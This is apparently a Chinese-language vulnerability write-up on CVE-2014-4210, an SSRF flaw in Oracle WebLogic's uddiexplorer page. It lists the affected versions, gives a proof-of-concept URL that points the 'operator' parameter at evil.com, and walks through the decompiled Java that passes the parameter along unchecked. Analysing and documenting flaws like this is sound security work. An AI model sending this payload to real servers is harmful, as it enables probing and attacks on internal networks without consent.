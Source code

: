 ```yaml
---
title: "WebLogic"
author: ["4shen0ne"]
draft: false
---
```


## CVE-2014-4210 {#cve-2014-4210}


### 影响范围 {#影响范围}

-   Oracle WebLogic Server 10.0.2.0
-   Oracle WebLogic Server 10.3.6.0


### POC {#poc}

```text
http://localhost:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&btnSubmit=Search&operator=http://evil.com
```


### 漏洞分析 {#漏洞分析}

该漏洞为 SSRF 漏洞，输入点在 `/uddiexplorer/SearchPublicRegistries.jsp` 页面的
operator 参数中。

{{< figure src="/ox-hugo/_20240530_182544screenshot.png" >}}

看一下 SearchPublicRegistries.jsp 对该参数的处理：

{{< figure src="/ox-hugo/_20240530_182626screenshot.png" >}}

从请求中拿到 operator 没做什么处理便传入 search 对象，然后调用了它的 getResponse
方法，那么跟进一下 search 对象的类 `com.bea.uddiexplorer.Search`

首先是 setOperator 方法：

```java
public void setOperator(String var1) {
    try {
        this.m_operator = var1;
        this.setUDDIInquiryURL(var1);
    } catch (Exception var4) {
        String var3 = (new UDDITextFormatter()).uddiExplorerSearchOpException();
        this.log.error(var3, var4);
    }
}
public void setUDDIInquiryURL(String var1) {
    this.UDDI_INQUIRY_URL = var1;
    this.m_inquiry.setURL(this.UDDI_INQUIRY_URL);
}
```
